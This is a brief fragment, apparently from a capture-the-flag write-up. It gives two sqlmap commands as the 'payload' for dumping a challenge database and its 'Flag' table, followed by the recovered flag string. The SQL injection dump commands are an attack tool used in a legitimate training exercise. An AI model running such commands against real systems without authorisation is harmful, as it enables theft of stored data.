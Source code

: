 payload: `sqlmap -r req --dump` or `sqlmap -r req -D railway -T Flag --dump` 

Flag: `bucket{j01n5_m4k3_n0_53n53_a5ed15}`
